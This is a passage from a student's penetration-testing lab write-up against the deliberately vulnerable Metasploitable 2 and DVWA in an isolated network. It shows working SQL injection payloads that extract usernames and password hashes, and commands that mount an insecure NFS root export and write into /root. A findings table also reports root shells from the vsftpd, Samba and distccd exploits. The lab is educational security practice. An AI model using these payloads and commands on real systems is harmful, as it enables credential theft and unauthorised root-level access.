

The application returned two table names: `guestbook` and `users`.

The initial value `-1` prevented the normal user lookup from returning a matching record, allowing the results from the injected `UNION SELECT` statement to appear in the application's output.

I then enumerated the columns belonging to the `users` table:

```sql
-1' UNION SELECT 'Columns',GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=database() AND table_name='users' #
```



The result identified six columns: `user_id`, `first_name`, `last_name`, `user`, `password`, and `avatar`.

### Credential Hash Extraction

After identifying the relevant columns, I used another `UNION SELECT` statement to retrieve the usernames and stored password hashes:

```sql
-1' UNION SELECT user,password FROM users #
```

The application returned five usernames and their associated MD5 password hashes.

To verify one of the hashes, I calculated the MD5 value of DVWA's known default password using Kali:

```bash
printf '%s' 'password' | md5sum
```

The resulting hash, `5f4dcc3b5aa765d61d8327deb882cf99`, matched the value returned for the `admin` account.



This demonstrated that the injection could retrieve stored credential information from the database. Because the passwords were stored as unsalted MD5 hashes, the extracted hashes could also be subjected to offline password-cracking attempts.

### Direct Database Verification

To independently verify the SQL injection results, I connected to Metasploitable 2 through SSH from Kali and accessed its local MySQL server.

I selected the DVWA database and queried the `users` table directly:

```sql
USE dvwa;
SELECT user, password FROM users;
```



The query returned the same five usernames and password hashes obtained through SQL injection, confirming that the extracted values matched the underlying database records.

I also examined the SQL injection traffic captured in Wireshark on the Ubuntu observer.



The capture showed an HTTP GET request to DVWA's SQL Injection page containing the URL-encoded `UNION SELECT` payload used to extract usernames and password hashes.

### Result and Security Impact

The SQL injection vulnerability in DVWA's Low security implementation was successfully exploited to manipulate database queries and retrieve information outside the application's intended user lookup.

The testing demonstrated boolean-based injection, database table and column enumeration, and extraction of usernames and password hashes. Direct MySQL inspection confirmed that the extracted credential data matched the stored records.

An attacker exploiting this type of vulnerability could access sensitive database information beyond what the application normally exposes. The impact depends on the database account's privileges and the operations permitted by the vulnerable query.

## 5. NFS - Insecure Export Configuration

### Initial Export Verification

[Lab 04](../04-vulnerability-assessment/) identified an insecure NFS configuration on Metasploitable 2. The server exported its root filesystem (`/`) to all clients (`*`), with `rw` and `no_root_squash` enabled.

Normally, NFS restricts a remote client's root access to shared files. The `no_root_squash` option disables this protection, allowing requests from Kali's root account to be treated as root when accessing the exported filesystem.

Before attempting to mount the export, I repeated the NFS enumeration using Nmap:

```bash
sudo nmap -sV -p 111 --script nfs-showmount 10.10.10.20
```



The scan identified the RPC binding service on TCP port 111, NFS on port 2049, and the exported root directory (`/`) available to all clients (`*`).

### NFS Exploitation

To determine whether the insecure export permitted root-level filesystem access, I attempted to mount Metasploitable 2's exported root directory from Kali.

I first created a local mount point and mounted the export using NFSv3:

```bash
sudo mkdir -p /mnt/lab05-nfs
sudo mount -t nfs -o vers=3 10.10.10.20:/ /mnt/lab05-nfs
```

I then verified the mount and listed the contents of the exported filesystem:

```bash
findmnt /mnt/lab05-nfs
sudo ls -la /mnt/lab05-nfs
```

The mount succeeded, and I was able to browse Metasploitable 2's root filesystem from Kali.

To test write access and the effect of `no_root_squash`, I created a proof file inside the target's `/root` directory through the mounted export:

```bash
sudo sh -c 'echo "Lab 05 - NFS root write confirmed" > /mnt/lab05-nfs/root/lab05-nfs.txt'
```

I then verified the file directly on Metasploitable 2:

```bash
sudo ls -l /root/lab05-nfs.txt
sudo cat /root/lab05-nfs.txt
```



The file contained the expected text and was owned by `root`, confirming that Kali could create files in Metasploitable 2's root-owned directories through the NFS export.

I examined the corresponding traffic in Wireshark, beginning with the mount operation.



The capture showed Kali sending an NFSv3 MOUNT request for the exported `/` directory.

I also examined the traffic generated when creating the proof file.



The capture showed the NFS `CREATE` and `WRITE` requests for `lab05-nfs.txt`, along with the server's corresponding responses.

### Result and Security Impact

The NFS export misconfiguration was successfully exploited to access and modify Metasploitable 2's root filesystem from Kali.

The testing confirmed that the combination of an unrestricted export, read/write access, and `no_root_squash` allowed a remote client using root privileges to create a root-owned file in the target's `/root` directory.

Unlike the previous command execution exploits, this test did not involve obtaining a remote shell or executing commands on Metasploitable 2 through NFS. Instead, the vulnerability provided direct filesystem access through the network share.

An attacker able to mount an export with these permissions could potentially read sensitive files, modify system configurations, or delete important data, depending on the available filesystem permissions.

## 6. Findings

The controlled exploitation tests confirmed that all five weaknesses investigated in [Lab 04](../04-vulnerability-assessment/) could be exploited in the isolated environment.

| Target | Vulnerability | Verified Result |
|---|---|---|
| vsftpd 2.3.4 | Backdoor (CVE-2011-2523) | Obtained a root shell on TCP port 6200 through manual exploitation and Nmap NSE. |
| Samba | Command Injection (CVE-2007-2447) | Executed a command through a crafted SMB username and obtained a root reverse shell using Metasploit. |
| distccd | Remote Command Execution (CVE-2004-2687) | Executed commands as the `daemon` user through a manually constructed distcc request and Nmap NSE. |
| DVWA | SQL Injection | Enumerated database tables and columns, extracted five username/password-hash pairs, and verified the results against MySQL. |
| NFS | Insecure Export Configuration | Mounted the exported root filesystem and created a root-owned file in `/root` from Kali. |

The results demonstrated different levels and types of access, ranging from root-level command execution to database information disclosure and direct filesystem modification.

## Result

This lab built on the vulnerability assessment performed in [Lab 04](../04-vulnerability-assessment/) by testing the identified weaknesses through controlled exploitation.

Using manual techniques, Nmap NSE, and Metasploit, I confirmed remote command execution through vsftpd, Samba, and distccd. I also demonstrated SQL injection in DVWA and root-level filesystem access through an insecure NFS export.

Wireshark provided additional evidence of the network activity associated with each exploit, allowing me to examine how crafted requests were transmitted and processed.

The findings and captured traffic will provide a foundation for [Lab 06](../06-intrusion-detection-mitigation/), where I will investigate defensive analysis, detection, and mitigation of the vulnerabilities demonstrated here.

## What I Learned

This lab helped me better understand how different vulnerabilities can be exploited and how the resulting access depends on the affected service and its configuration.

By examining existing exploit code and reproducing techniques manually, I gained a better understanding of the underlying mechanisms. This included triggering the vsftpd backdoor through FTP commands, investigating username parsing during Samba exploitation, and constructing a distcc protocol request to execute a command remotely.

I also gained experience troubleshooting unsuccessful exploitation attempts. During the Samba testing, Wireshark revealed that `smbclient` was altering the crafted username, leading me to investigate its parsing behavior and correct the request.

The DVWA testing improved my understanding of how SQL injection can manipulate database queries to enumerate tables, identify columns, and extract stored information. Directly comparing the extracted results against MySQL also demonstrated the importance of independently verifying exploitation findings.

The NFS investigation demonstrated how insecure file-sharing permissions can expose sensitive files and allow root-level modifications without requiring a remote command shell.

Overall, I gained more experience combining manual exploitation, automated tools, network traffic analysis, and direct verification to understand not only whether a vulnerability was exploitable, but also how it worked and what level of access it provided.

## References

### Vulnerability Research

- [Exploit-DB 49757 - vsftpd 2.3.4 Backdoor Command Execution](https://www.exploit-db.com/exploits/49757) - Python exploit examined in [Lab 04](../04-vulnerability-assessment/) and used as a reference for manual exploitation.
- [Samba Security Advisory - CVE-2007-2447](https://www.samba.org/samba/security/CVE-2007-2447.html) - Documents the command injection vulnerability and the affected Samba configurations.
- [Exploit-DB 16320 - Samba Username Map Script Command Execution](https://www.exploit-db.com/exploits/16320) - Exploit code examined to understand the crafted username and develop the manual exploitation attempt.
- [Metasploit - Samba Username Map Script Module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/samba/usermap_script.rb) - Source code for the Metasploit module used to obtain the reverse shell.
- [Exploit-DB 9915 - distccd Command Execution](https://www.exploit-db.com/exploits/9915) - Exploit code examined to understand how distcc requests can execute shell commands.
- [distcc Security Notes](https://www.distcc.org/security.html) - Explains the security risks of accepting remote compilation requests from untrusted clients.
- [DVWA - Official Repository](https://github.com/digininja/DVWA) - Source code and documentation for Damn Vulnerable Web Application.

### Exploitation and Service Documentation

- [Nmap - ftp-vsftpd-backdoor NSE Script](https://nmap.org/nsedoc/scripts/ftp-vsftpd-backdoor.html) - Documents the script used to trigger the vsftpd backdoor and execute `id`.
- [Samba - smbclient Manual](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html) - Documents the SMB client and its command-line options used during manual exploitation.
- [Nmap - distcc-cve2004-2687 NSE Script](https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html) - Documents the script used for automated exploitation and examined when constructing the manual distcc request.
- [Nmap - nfs-showmount NSE Script](https://nmap.org/nsedoc/scripts/nfs-showmount.html) - Documents the script used to enumerate the exported filesystem.
- [Linux - exports(5) Manual](https://man7.org/linux/man-pages/man5/exports.5.html) - Explains NFS export configurations, including `rw` and `no_root_squash`.
- [Linux - nfs(5) Manual](https://man7.org/linux/man-pages/man5/nfs.5.html) - Documents NFS mount options, including protocol version selection.
- [Linux - mount(8) Manual](https://man7.org/linux/man-pages/man8/mount.8.html) - Documents the command used to mount the exported filesystem.

### General Tools and Database Documentation

- [Kali Linux - Netcat](https://www.kali.org/tools/netcat/) - Documents the utility used for manual network connections and transmitting crafted requests.
- [MySQL - SQL Statements](https://dev.mysql.com/doc/refman/8.0/en/sql-statements.html) - Reference for SQL statement syntax, including queries used during DVWA exploitation and direct database verification.
- [MySQL - INFORMATION_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema.html) - Explains the database metadata tables used during SQL injection enumeration.
- [Wireshark User's Guide](https://www.wireshark.org/docs/wsug_html_chunked/) - Documents packet capture, display filtering, and protocol analysis used throughout the lab.
